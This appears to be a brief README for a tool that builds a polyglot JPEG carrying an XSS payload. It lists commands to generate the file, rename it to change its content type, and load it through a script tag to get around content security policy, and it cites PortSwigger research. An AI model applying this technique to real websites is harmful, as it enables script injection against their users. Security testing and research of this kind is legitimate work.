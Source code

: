 # XSS_JPEG for Linux
### create XSS JPEG file and Trigger XSS

1. python3 xss_jpeg.py "alert(1)"
2. mv xss.jpeg xss.txt // Content-Type image/jpeg -> text/plain
3. <script charset="ISO-8859-1" src="xss.txt">

reference: https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs

